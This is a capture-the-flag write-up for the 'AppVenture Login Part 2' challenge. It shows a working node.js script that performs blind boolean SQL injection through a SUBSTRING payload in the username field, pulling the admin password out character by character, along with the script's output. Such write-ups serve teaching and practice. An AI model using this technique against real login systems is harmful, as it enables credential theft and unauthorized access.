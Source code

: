 ```yaml
---
ai_date: 2025-04-27 05:10:26
ai_summary: Script bruteforces password by checking characters one at a time using SQL substring.
ai_tags:
  - sql
  - brute-force
  - sub-string
created: 2021-12-21T23:50
updated: 2025-07-14T09:46
---
```


## AppVenture Login Part 2

> Ok, you got the flag, but I bet you'll never get my password!

Basing off the description, the flag is probably the password. Even though we logged in as admin in the last challenge, we do not know of the password.

To get the password, we can check the password 1 character at a time to reduce the number of tries. Trying the entire password string at a time require exponential amount of tries and will be unrealistic.

The flag format is `flag{...}` where characters consist of lower case letters, `{}` and `_`. We can quickly code up a little script to find the password. In this writeup we will be using `node.js` for the simplicity and non-pythonic syntax.

```js
const fetch = require("node-fetch");
const FormData = require('form-data');

let chars = "abcdefghijklmnopqrstuvwxyz_{}".split('');
let password = [];

async function verify(i, c) {
    const form = new FormData();
    form.append('username', `admin' and SUBSTRING(password, ${i + 1}, 1)='${c}' --`);
    const res = await fetch('http://35.240.143.82:4208/login', {method: 'POST', body: form})
    const text = await res.text();
    return text !== "Login failed"
}

async function step(i) {
    for (let c of chars) {
        if (await verify(i, c)) return c;
    }
    return null;
}

async function brute_force() {
    let i = 0;
    while (true) {
        password[i] = await step(i);
        console.log(password.join(''));
        if (!password[i]) break;
        i++;
    }
    console.log(password.join(''));
}

brute_force();
```

As before we use `admin'` to escape the admin field, and `--` to skip the password check.

However we add our own check in the middle, `SUBSTRING(password, i, 1)` works the same as normal substring would but sql is 1-indexed(kinda weird but yeh)

What would happen would be like this

- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='a' --` fail
- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='b' --` fail
- ...
- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='f' --` success
- `select id from users where name='admin' and SUBSTRING(password, 2, 1)='a' --` fail
- ...

`verify` will make a request to check if the password has character in variable `c` at position `i`.

`step` will simply try all characters for a position until one hits.

`brute_force()` will step through all positions until a correct character can't be found for the position, which would be most likely the end of the password

### Running the script

```flag
f
fl
fla
...
flag{oops_looks_like_youre_not_blind
flag{oops_looks_like_youre_not_blind}
flag{oops_looks_like_youre_not_blind}
flag{oops_looks_like_youre_not_blind}
```

Flag obtained